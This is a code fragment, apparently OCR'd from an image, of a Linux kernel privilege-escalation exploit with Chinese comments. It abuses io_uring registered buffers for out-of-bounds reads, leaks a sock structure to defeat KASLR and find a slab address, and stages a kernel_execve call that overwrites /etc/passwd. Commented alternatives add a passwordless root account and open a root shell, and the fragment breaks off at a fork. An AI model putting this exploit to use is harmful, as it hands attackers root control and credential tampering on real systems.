 ```
    {
// 3、注册 fixed buf
        logu("memfds bind virtual");
        memfds_bind_virtual(memfds[i],nr_pages);
        oob_buf = VIR_START_ADDR;
        uiovec.iov_base = oob_buf;
        uiovec.iov_len =  nr_pages* PAGE_SIZE;
        logi("io_uring_register_buffers");

        ret = io_uring_register_buffers(&ring,&uiovec,1);
        if( ret < 0 )die("failed io_uring_register_buffers");
        logd("uiovec.iov_base -> %p uiovec.iov_len -> %llx",uiovec.iov_base,uiovec.iov_len);      
// 4、尝试oob
        for (size_t vir_off = 0; vir_off < (nr_pages-block_size); vir_off+=block_size)
        {
            void* oob_addr = uiovec.iov_base+vir_off*PAGE_SIZE;
            submit_sqe(&ring,recv_fd,oob_addr,block_size,SUBMIT_WRITE);
            // binary_dump("recv_buf",recv_buf,block_size*PAGE_SIZE);
            ret= leak_sock_addr(recv_buf,block_size*PAGE_SIZE);
            if (ret==-1) continue;
    // oob读取成功，开始提取信息
            logu("oob_addr -> %p offset -> %p",oob_addr,vir_off*PAGE_SIZE);
            void* sock_addr = oob_addr+ret;
            logi("offset : %d v2p_sock_addr : %p",ret,sock_addr);
    //定位到物理地址处，读取出完整sock
            submit_sqe(&ring,recv_fd,sock_addr,0x2000,SUBMIT_WRITE);
            memcpy(recv_buf2,recv_buf,0x2000);
    //现在recv_buf 包含完整的sock结构体

            void* sock  = (void*)recv_buf;
            logu("sock->sk_pacing_rate : 0x%llx",*(size_t*)(sock+456));    
            logu("sock->sk_max_pacing_rate : 0x%llx",*(size_t*)(sock+456+8));   
            int rcvbuf = *(int*)(sock+280);
            int sock_fd = GET_RCVBUF(rcvbuf);
            logu("sock->rcvbuf : 0x%x  sock_fd -> %d",rcvbuf,sock_fd);   
            
            uint64_t sock_def_readable = *(uint64_t*)(sock+0x2a8);
            vmlinux_base = sock_def_readable - SOCK_DEF_READALBE_OFFSET;
            showAddr(vmlinux_base); 

            uint64_t slub_sock_addr = *(uint64_t*)(sock+0xd8);
            slub_sock_addr -= 0xd8;
            showAddr(slub_sock_addr); 
    // 先在sock上布置所需的字符串
            // char cmd_argv[] = {"/bin/sh", "-c","/bin/sh &>/dev/ttyS0 </dev/ttyS0", NULL};  
            // char cmd_argv[] = "/bin/sh\x00-c\x00/bin/sh &>/dev/ttyS0 </dev/ttyS0\x00";
            // echo "hacker::0:0:root:/root:/bin/sh" >> /etc/passwd
            char cmd_argv[] = "/usr/bin/mv\x00-f\x00/home/mowen/passwd\x00/etc/passwd\x00";
            uint64_t path_addr =slub_sock_addr;
            uint64_t argv_addr =slub_sock_addr;
#define sk_priority_offset 0x1c0-0x20
#define sk_error_queue_offset 0xc0-0x10
#define sk_sk_socket_offset 0x270
#define socket_ops_offset 0x20
#define ops_set_rcvlowat_offset 0xe0
#define arg1_offset 11+1
#define arg2_offset arg1_offset+2+1
#define arg3_offset arg2_offset+18+1
#define kernel_execve  0x443470
            pid_t pid;
            pid=fork();
            if (!pid)
            {
```